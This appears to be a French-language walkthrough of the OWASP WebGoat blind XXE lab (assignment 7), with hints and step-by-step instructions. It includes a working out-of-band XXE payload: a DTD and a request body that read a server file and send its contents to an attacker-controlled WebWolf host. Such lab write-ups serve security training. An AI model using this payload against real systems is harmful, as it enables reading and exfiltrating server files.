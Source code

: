 7.  
![Hint](images/wiki_owasp_webgoat/hint.png) This assignment is more complicated you need to upload the contents of a file to the attackers site (WebWolf in this case)  
![Hint](images/wiki_owasp_webgoat/hint.png) In this case you cannot combine external entities in combination with internal entities.  
![Hint](images/wiki_owasp_webgoat/hint.png) Use parameter entities to perform the attack, see for example: https://www.acunetix.com/blog/articles/xml-external-entity-xxe-limitations/  
![Hint](images/wiki_owasp_webgoat/hint.png) An example DTD can be found here WebGoat/images/example.dtd, include this DTD in the xml comment  
![Hint](images/wiki_owasp_webgoat/hint.png) Use for the comment, be aware to replace the url accordingly: <?xml version="1.0"?><!DOCTYPE comment \[<!ENTITY % remote SYSTEM "http://localhost:9090/files/test1234/test.dtd">%remote;\]><comment><text>test&send;</text></comment>

*   Envoyer le fichier **contents\_file.dtd** vers **WebWolf**.
*   Ouvrir les _Outils de développements_ du navigateur, et aller dans l'onglet _Réseau_.
*   Sur WebGoat, poster un commentaire.
*   Repérer la requête vers `blind` dans l'onglet _Réseau_ et cliquer sur _Modifier et renvoyer_.
*   Modifier le corps de la requête comme spécifié ci-dessous.

**contents\_file.dtd**  
```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!ENTITY % all "<!ENTITY send SYSTEM 'http://host:port/landing?%file;' >" >%all;
```  
  
**Request Body**  
```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE xxe [  
<!ENTITY % file SYSTEM "file:///home/webgoat/.webgoat-8.0.0.M25/XXE/secret.txt" >  
<!ENTITY % dtd SYSTEM "http://host:port/files/username/contents_file.dtd" >  
%dtd;]>  
<comment>  
<text>test&send;</text>  
</comment>
```

![XXE 7](images/wiki_owasp_webgoat/xxe-7.png)
